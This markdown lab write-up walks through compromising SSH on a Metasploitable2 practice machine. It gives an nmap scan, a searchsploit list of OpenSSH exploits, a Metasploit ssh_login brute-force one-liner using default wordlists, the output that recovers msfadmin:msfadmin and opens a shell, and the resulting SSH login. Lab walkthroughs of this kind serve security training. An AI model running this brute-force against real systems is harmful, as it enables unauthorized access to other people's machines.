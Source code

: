 ### SSH (PORT 22) - CHECK

This port is used for SSH to a machine, in this case
it is metasploitable2 machine. Usually SSH port is open but
forwarded to another port. In the scenario that we're using
metasploitable2, since it's used as vulnerable os, it's opened
on default port 22.

**Nmap scan**
````
$ nmap -p 22 192.168.56.101
````

*Port 22 // scan results*
````
Nmap scan report for 192.168.56.101 (192.168.56.101)
Host is up (0.00038s latency).

PORT   STATE SERVICE
22/tcp open  ssh

````
**Searchsploit**
````
$ searchsploit openssh 4.7p1
````

````
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                       | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                 | linux/remote/45210.py
OpenSSH < 6.6 SFTP (x64) - Command Execution                   | linux_x86-64/remote/45000.c
OpenSSH < 6.6 SFTP - Command Execution                         | linux/remote/45001.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Un | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading       | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                           | linux/remote/45939.py
--------------------------------------------------------------- ---------------------------------
````

**Metasploitable**
````
$ msfconsole -q -x 'use auxiliary/scanner/ssh/ssh_login;set USER_FILE /usr/share/metasploit-framework/data/wordlists/http_default_users.txt;set PASS_FILE /usr/share/metasploit-framework/data/wordlists/http_default_userpass.txt;set RHOSTS 192.168.56.101;set RPORT 22;exploit'
````

**Output**
````
[+] 192.168.56.101:22 - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),
20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin)
,119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008
i686 GNU/Linux '
[*] Command shell session 2 opened (10.0.2.15:43913 -> 192.168.56.101:22) at 2020-11-11 06:56:53 -0500
````

**SSH Login**
````
$ ssh msfadmin@192.168.56.101
msfadmin@192.168.56.101's password: msfadmin

Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
No mail.
Last login: Wed Nov 11 07:02:56 2020
msfadmin@metasploitable:~$ 
````

